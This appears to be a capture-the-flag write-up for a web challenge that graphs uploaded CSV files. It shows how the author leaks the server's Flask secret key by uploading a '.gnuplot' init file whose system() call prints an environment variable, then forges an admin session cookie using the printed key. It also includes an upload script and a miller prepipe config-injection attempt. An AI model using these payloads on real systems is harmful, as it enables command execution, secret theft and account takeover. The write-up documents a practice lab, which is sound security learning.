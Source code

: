 ```python
    out = run(  
        ['sandbox.sh', 'mlr', '--icsvlite', '--opprint', '-N', 'cat', filename],  
        capture_output=True,  
    ).stdout  
    with open(filename, 'wb') as f:  
        f.write(out)  
    return True
```
The above miller script takes in a csv file and prints it nicely in a table like format, spacing the entries apart neatly.
Hijacking the command is not possible here despite the file names being directly substituted in as all filenames are validated ensuring only alphabets,  `-_` and at most one `.` is allowed.
```python
def isfilename(s: str) -> bool:  
	return s and all(  
        c in string.ascii_uppercase + string.ascii_lowercase + string.digits + '_-'  
        for c in ''.join(s.split('.', 1)) # Basically removes the first period
    )
```
We also can't specify flags for the commands, as spaces are also disallowed.
Looking deeper into miller and gnuplot, we see that miller has its own scripting language, which we could use to obtain environment variables. Gnuplot itself seems to be a script engine, meaning we could also use it to run commands. 
However, all those capabilities would be useless without a way to execute scripts. When searching for CVEs related to miller and gnuplot, I found this exploit for an old version of miller:
https://github.com/johnkerl/miller/security/advisories/GHSA-mw2v-4q78-j2cw
The exploit abuses the `--prepipe` flag, which pipes data into a command to allow it to be preprocessed. As `.millerrc` is a valid file name, we could upload the config file and get it to run any commands.
```python
with open("payload", 'r') as f:  
    files = {"csv": (".millerrc", f, "text/csv")}  
    url = "http://graph.chal.hackthe.vote/data"  
    cookies = {"session": "..."}  
    res = requests.post(url, files=files, cookies=cookies, allow_redirects=False)
```
I tried this POC to see if the miller version used was vulnerable:
`prepipe,touch,maybe.csv;cat` 
Since spaces are not allowed in csv files(as from the above `convert` function), we use commas instead, which get replaced with spaces when the file is pretty printed. When the next csv file is uploaded, the config file should be loaded and the script should run.
Unfortunately, nothing appeared, meaning the miller used here was not vulnerable anymore.
What about gnuplot? If miller had its own config file, maybe gnuplot has one too?
Lo and behold, I found this https://stackoverflow.com/questions/1200463/is-there-a-gnuplot-configuration-file. It states
> "If the initialization file is found, gnuplot executes the commands in it. These may be any legal gnuplot commands, but typically they are limited to setting the terminal and defining frequently-used functions or variables."

By uploading a  `.gnuplot` config file, we could run commands such as
```
projName=,system("echo,$SECRET_KEY")  
set,title,projName
```
which gets converted into
```
secret= system("echo $SECRET_KEY")  
set       title        secret
```
after being processed by miller. Now, when graphing an image, we also obtain the flask secret key.
(No screenshot sorry D: )
From there, we can forge our flask session cookie with the admin user
```python
print(FSCM.encode("_5#y2LxF4Q8zxnxxec]/", '{"user": "872bfdd01752ea2641a3e211db6127a7af1d9b44f1602780bbae465ccf4ac25e"}'))
```